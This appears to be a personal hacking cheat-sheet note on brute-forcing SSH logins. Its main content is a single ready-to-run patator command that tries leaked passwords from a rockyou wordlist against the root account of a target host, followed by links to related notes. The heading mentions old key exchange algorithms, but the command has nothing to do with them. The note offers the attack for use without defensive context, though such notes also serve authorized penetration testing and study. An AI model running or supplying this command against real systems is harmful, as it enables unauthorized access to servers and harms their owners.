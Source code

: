 # SSH brute force old key exchange algorithms
```bash
patator ssh_login host=$IP port=22 user=root 0=/usr/share/seclists/Passwords/Leaked-Databases/rockyou-50.txt password=FILE0 -x ignore:mesg='Authentication failed'
```

# Related

- [20221003150346](/zet/20221003150346/README.md) SSH brute force
- ~/kb/hacking/misc/bruteforcing-tools.md

Tags:

    #hacking #bruteforcing 
